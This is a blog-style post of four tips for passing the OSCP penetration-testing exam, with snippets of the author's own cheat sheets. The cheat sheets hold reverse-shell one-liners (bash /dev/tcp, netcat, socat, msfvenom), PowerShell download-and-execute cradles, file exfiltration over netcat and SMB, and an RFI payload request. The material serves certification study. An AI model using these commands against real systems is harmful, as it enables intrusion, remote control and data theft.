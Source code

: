 # Four OSCP Tips

I completed all five OSCP exam machines in 9.5 hours and I did not use Metasploit. Here are four tips that will help you to pass your OSCP exam:

## 1. Tame your terminal

Export variables and set aliases in `~/.bashrc` for commands that you will frequently. I recommend the following: 
* Store your OSCP lab and exam content on your host machine and share it with your PWK virtual machine using VMWare's shared folders feature. Use the following alias to conveniently mount the shared drives inside of the virtual machine: 
	```
	alias "mount-shared-folders=
	vmware-hgfsclient | while read folder; do
		echo \"[i] Mounting ${folder} (/mnt/hgfs/${folder})\";
		mkdir -p \"/mnt/hgfs/${folder}\";
		umount -f \"/mnt/hgfs/${folder}\" 2>/dev/null;
		vmhgfs-fuse -o allow_other -o auto_unmount \".host:/${folder}\" \"/mnt/hgfs/${folder}\";
	done"
	```	
* You will frequently use tools that will require you to type out the target machine's IP address and/or your VPN IP address. Export these values to variables to save time and prevent typos:
	```
	export targ=x.x.x.x
	export tun0=$(/sbin/ip -o -4 addr list tun0 | awk '{print $4}' | cut -d/ -f1)
	```
	After you've finished a machine and changed the `targ` variable, use `source` to reload `.bashrc` for the current session:
	```
	source ~/.bashrc
	```
	Example: use these variables to exploit an RFI vulnerability (the unicorns of web application hacking):
	```
	curl "http://$targ/vuln_page.php?file=http://$tun0:8888/payload.php"
	```
		
* Not OSCP-specific but you can use `xclip` and an alias to copy and paste while keeping both hands on the keyboard:
	```
	alias "c=xclip -selection clipboard"
	alias "v=xclip -o -selection clipboard"
	```
	Example: use this alias to review a `searchsploit` result:
	```
	locate windows/remote/1.c | c ; less `v`
	```
* You will frequently use a webserver to transfer files to a target machine. Create a shared folder for these files and make an alias to spin up the webserver:
	```
	alias "webserver=
		webserver_dir=/home/user/www;
		ls -laR $webserver_dir;
		python3 -m http.server 8888 --directory $webserver_dir --bind $tun0"
	```
## 2. Connect with the OSCP community
There are a handful of Discord servers with OSCP text channels and one of them is InfoSec Prep which has ~17,000 members as of 1/1/2020: https://discord.gg/mS5tzTuyR2.

## 3. Study for the *exam*
While completing the PWK exercises and labs you will learn essential offensive security concepts like post-exploitation and lateral movement which will not be tested during the OSCP exam. Additionally, in 2020 Offensive Security updated the course (https://www.offensive-security.com/offsec/pwk-2020-update/) to incude a lot of new content including Active Directory and Powershell Empire modules which will also not be tested during the OSCP exam according to the update announcement: "At this time, the OSCP exam, proctoring, and certification procedures will remain the same." You could ignore these essential concepts (at a detriment to your professional development) if your only goal is to pass the OSCP exam. 

## 4. Make your own cheat sheets
Every J. Random Hacker has published an OSCP cheat sheet:

![Google cheat sheet result count](google_cheat_sheet_count.png)

and their work is helpful to you but not nearly as helpful as creating your own. I recommend that you create at least 3 documents as you progress through the PWK exercises and lab machines. The following are snippets from the three cheat sheets that I created:
	1. An enumeration cheat sheet:
	```
	PORT SCAN
	=========
	sudo nmap -v -Pn -A $targ -oN nmap_default-ports ;\
	sudo nmap -v -Pn -sV --script vuln $targ -oN nmap_vulns ;\
	sudo nmap -v -Pn -p- $targ -oN nmap_all-ports

	SERVICE ENUMERATION
	===================
	21 FTP
	22 SSH
		* OpenSSH <= 7.7 has username enumeration vulnerability
			* python sshUsernameEnumExploit.py --userList /usr/share/wordlists/metasploit/unix_users.txt $targ
				* source: https://github.com/BlackDiverX/ssh-user-enumeration
			* python 45939.py $targ root
		* server only accepts legacy algorithms?  "no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1 ...""
			* connect using legacy algorithm: ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 $user@$targ 
	25 SMTP
		* run SMTP nmap scripts: nmap -p 25 --script=smtp-* $targ
		* enumerate local linux users: smtp-user-enum.pl -M VRFY/EXPN/RCPT -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t $targ	
		* shellshock RCE vulnerability exists for postfix smtp server w/procmail
			* PoC: https://github.com/3mrgnc3/pentest_old/blob/master/postfix-shellshock-nc.py
	...
	```
	2. A Linux cheat sheet with shells, file transfer methods, and privilege escalation methods:
	```
	SHELLS
	======
	* bash -i >& /dev/tcp/$tun0/4444 0>&1
	* msfvenom -p linux/x86/shell_reverse_tcp LHOST=$tun0 LPORT=4444 -f elf > shell86.elf
	* msfvenom -p linux/x64/shell_reverse_tcp LHOST=$tun0 LPORT=4444 -f elf > shell.elf
	* nc -e /bin/bash $tun0 4444
	* nc -c /bin/bash $tun0 4444
	* socat tcp:$tun0:4444 exec:"bash -i",pty,stderr,setsid,sigint,sane
		* socat -,raw,echo=0 tcp-listen:4444 //to catch the shell
	* rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $tun0 4444 >/tmp/f
		* netcat shell for nc without -e or -c
		* sourced from: https://ostrokonskiy.com/posts/linux-privilege-escalation-cheatsheet.html
	...

	DOWNLOAD FILES TO TARGET
	========================
	* scp $file $user@$targ:~/$file
	* curl http://$tun0:8888/$file -o /tmp/$file
	* wget http://$tun0:8888/$file -O /tmp/$file
	* axel http://$tun0:8888/$file -o /tmp/$file
	...

	CRONJOBS
	========
	* use pspy to view short-lived processes
	* check cron log file for cronjobs in execution
		grep "CRON" /var/log/syslog*
	* list all /etc/cron files
		ls -lhra /etc/cron*
	* check /etc/crontab- sometimes sysadmins put tasks
	* users can create cronjobs with crontab -e
		* without adequate permissions we cannot view other users' crontabs
		* crontabs are stored in /var/spool/cron/crontabs/$user
	...
	```
	3. A Windows cheat sheet with shells, file transfer methods, and privilege escalation methods:
	```
	SHELLS
	======
	* msfvenom -p windows/x64/shell_reverse_tcp LHOST=$tun0 LPORT=4444 -f exe > unstaged64.exe
	* msfvenom -p windows/shell_reverse_tcp LHOST=$tun0 LPORT=4444 -f exe > unstaged86.exe
	* nc.exe $tun0 4444 -e cmd.exe
	* powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://$tun0:8888/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress $tun0 -Port 4444"
	* powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://$tun0:8888/powercat.ps1'); powercat -l -p 4444 -e cmd"
	...
	
	UPLOAD FILES TO ATTACKER
	========================
	* nc -nvlp 6666 > $file
		* to receive
	* nc.exe $tun0 6666 -w 3 < $file.out
	* Get-Content $file.out | ./nc64.exe -w 3 $tun0 6666
		* useful for cases without '<'
	* cmd /c 'C:\Users\$user\Documents\nc64.exe -w 3 $tun0 6666 < $file'
	* sudo impacket-smbserver smb_share $directory
		* copy $file.out \\$tun0\smb_share\
	...
	
	GENERAL PRIV ESC
	================
	* whoami /all
		* look for: SeImpersonate, SeAssignPrimary, SeTcb, SeBackup, SeRestore, SeCreateToken, SeLoadDriver, SeTakeOwnership, or SeDebug
			* source: https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/
	* net localgroup Administrators
		* shows who is inside Administrators group
	* dir /b /s *.ext
		* search for files with file extension
	* dir /r
		* view alternate data streams
	* type C:\Users\$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
		* review user's powershell history
	...
	```
Good luck!